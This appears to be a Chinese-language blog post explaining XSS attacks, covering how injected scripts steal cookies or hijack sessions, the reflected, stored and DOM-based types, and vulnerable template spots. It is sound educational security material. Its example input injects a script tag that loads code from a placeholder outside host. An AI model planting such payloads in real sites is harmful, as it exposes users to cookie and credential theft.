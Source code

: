 ```yaml
---
title: "web安全知识总结与实践"
date: 2019-06-14 07:32:38
draft: false
toc: true
---
```


## XSS 攻击

跨站脚本攻击(cross site scripting, xss) 是往目标网站注入恶意脚本(XSS payload，如评论、第三方脚本)，然后当用户访问时，对用户进行 Cookie 窃取/会话劫持/钓鱼欺骗等各种攻击。xss 原理是`程序 + 数据 = 结果`，script 由数据变成了程序。下面是一些可能中招的地方：

1、比如用户提交了 script 参数脚本，后端直接返回了，而没有处理。这个时候用户提交的 script 会直接当作脚本执行(有些浏览器会自动防御，后面讲)。脚本也叫

```
// 前端评论框提交
?from=<script src='http://www.xx.com/jquery.js'></script>

// 后端返回前端模板
<div>{from}</div>
```

2、评论时富文本编辑器，然后其它用户访问评论也会中招。

3、用户下单评论或其它操作，后台用户进入查看，这时脚本运行，黑客可以得到后台管理员的 cookie 和网址 referrer，然后登录。

4. 包括但不限于 JavaScript / VBScript / CSS / Flash 等。

### xss 能干什么

- 获取页面数据。
- 获取cookie。
- 劫持前端逻辑，比如脚本里有`location.href=url`或者`<meta http-equiv="Refresh" content="1; url=url"/>` 跳转。
- 发送请求。
- 偷取网站任意资料、用户资料、密码和登录态，欺骗用户。
- 修改样式，误导用户


### xss攻击分类

xss 攻击分为三种: 

- `反射型`：url参数直接注入，危害小些，因为用户可能会察觉到。不过攻击者可能用短网址。
- `存储型`：会存储到数据中，相比危害更大。
- `DOM Based型`: 是用户打开了黑客发送的恶意链接，前端直接使用了链接里的参数作为数据，导致恶意脚本执行了。它很像反射型XSS，只不过是浏览器直接反射。

> XSS钓鱼，XSS + 钓鱼网站。比如黑客在网站插入一个吸引人的链接，用户点击链接进入黑客做的淘宝钓鱼网站，输入账号密码。这样黑客就知道用户的账号密码了。


### 可能导致 xss 攻击地方

- html 节点内容: 动态生成带有用户输入数据。

```html
<div>#{content}</div>
可能变为:
<div><script></script></div>
```
